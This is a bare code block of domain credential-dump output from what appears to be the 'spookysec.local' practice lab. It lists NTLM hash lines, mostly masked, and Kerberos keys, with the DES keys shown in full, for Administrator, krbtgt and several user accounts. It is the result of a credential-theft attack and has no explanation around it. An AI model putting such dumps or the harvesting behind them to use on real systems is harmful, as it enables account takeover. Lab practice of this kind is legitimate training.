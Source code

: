 ```sh                                                                                                               
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c******************************a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:6******************************b:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:0******************************2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3******************************5:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:4******************************4:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:f******************************9:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:1******************************8:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0******************************c:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:5******************************4:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:7**************************************************************8
Administrator:aes128-cts-hmac-sha1-96:e******************************e
Administrator:des-cbc-md5:2079ce0e5df189ad
krbtgt:aes256-cts-hmac-sha1-96:b**************************************************************c
krbtgt:aes128-cts-hmac-sha1-96:e******************************2
krbtgt:des-cbc-md5:b94f97e97fabbf5d
spookysec.local\skidy:aes256-cts-hmac-sha1-96:3**************************************************************4
spookysec.local\skidy:aes128-cts-hmac-sha1-96:4******************************3
spookysec.local\skidy:des-cbc-md5:b092a73e3d256b1f
spookysec.local\breakerofthings:aes256-cts-hmac-sha1-96:4**************************************************************5
spookysec.local\breakerofthings:aes128-cts-hmac-sha1-96:3******************************5
spookysec.local\breakerofthings:des-cbc-md5:7a976bbfab86b064
spookysec.local\james:aes256-cts-hmac-sha1-96:1**************************************************************2
spookysec.local\james:aes128-cts-hmac-sha1-96:0******************************6
spookysec.local\james:des-cbc-md5:dc971f4a91dce5e9
spookysec.local\optional:aes256-cts-hmac-sha1-96:f**************************************************************e
spookysec.local\optional:aes128-cts-hmac-sha1-96:0******************************0
spookysec.local\optional:des-cbc-md5:8c6e2a8a615bd054
spookysec.local\sherlocksec:aes256-cts-hmac-sha1-96:8**************************************************************d
spookysec.local\sherlocksec:aes128-cts-hmac-sha1-96:c******************************e
spookysec.local\sherlocksec:des-cbc-md5:08dca4cbbc3bb594
spookysec.local\darkstar:aes256-cts-hmac-sha1-96:3**************************************************************9
spookysec.local\darkstar:aes128-cts-hmac-sha1-96:4******************************e
spookysec.local\darkstar:des-cbc-md5:758af4d061381cea
spookysec.local\Ori:aes256-cts-hmac-sha1-96:5**************************************************************7
spookysec.local\Ori:aes128-cts-hmac-sha1-96:5******************************e
spookysec.local\Ori:des-cbc-md5:1c8f79864654cd4a
spookysec.local\robin:aes256-cts-hmac-sha1-96:8**************************************************************3
spookysec.local\robin:aes128-cts-hmac-sha1-96:7******************************8
spookysec.local\robin:des-cbc-md5:89a7c2fe7a5b9d64
spookysec.local\paradox:aes256-cts-hmac-sha1-96:6**************************************************************0
spookysec.local\paradox:aes128-cts-hmac-sha1-96:f******************************8
spookysec.local\paradox:des-cbc-md5:83988983f8b34019
spookysec.local\Muirland:aes256-cts-hmac-sha1-96:8**************************************************************7
spookysec.local\Muirland:aes128-cts-hmac-sha1-96:2******************************a
spookysec.local\Muirland:des-cbc-md5:cb8a4a3431648c86
spookysec.local\horshark:aes256-cts-hmac-sha1-96:8**************************************************************6
spookysec.local\horshark:aes128-cts-hmac-sha1-96:c******************************c
spookysec.local\horshark:des-cbc-md5:a823497a7f4c0157
spookysec.local\svc-admin:aes256-cts-hmac-sha1-96:e**************************************************************8
```